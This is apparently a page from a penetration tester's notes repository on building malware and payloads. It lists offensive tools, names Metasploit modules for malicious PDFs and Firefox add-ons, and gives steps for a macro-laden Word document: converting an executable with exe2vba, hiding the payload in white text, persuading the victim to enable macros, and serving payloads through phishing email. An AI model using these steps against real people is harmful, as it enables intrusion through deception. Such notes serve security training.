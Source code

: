 ```yaml
---
title: Creating malware and custom payloads
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# Creating malware and custom payloads


## msfvenom

[msfvenom cheat sheet](msfvenom.md).


## Empire

[Empire cheat sheet](empire.md).


## AV0id

[AV0id cheat sheet](av0id.md).


## Syringe

[syringe cheat sheet](syringe.md).


## FatRat

[FatRat cheat sheet](fatrat.md).


## Veil 

[Veil cheat sheet](veil.md).


## Creating malware in pdf

These two modules in metasploit:

+ exploit/windows/fileformat/adobe_pdf_embedded_exe
+ exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs 


## Creating malware in word document

**1.** Craft an executable

Use for instance [veil](veil.md).

**2.** Convert it to a VisualBasic script - macro code

```bash
locate exe2vba
# Result: /usr/share/metasploit-framework/tools/exploit/exe2vba.rb

# Go to the folder
cd /usr/share/metasploit-framework/tools/exploit/

# Create the malicious vba script
./exe2vba.rb <first-parameter> path/to/nameOfOutputFile.vba
# first parameter: malicious executable file that will be converted to macro code. Take the path to the .exe file provided by veil
```

**3.** Create an MS Word document

**4.** Opena new macro and embed macro code

**5.** Copy the payload as text in the word document. If it's too long, disguise it (set font color to white).

**6.** Convince the victim to have macros enabled.

**7.** Start a listener and wait for the victim to connect.


## Creating malware in a Firefox addon

Use the metasploit module to generate the addon: exploit/multi/browser/firefox_xpi_bootstrapped_addon

It will be served from SRVHOST:SRVPORT/URIPATH. This URL you can serve it from a phishing email.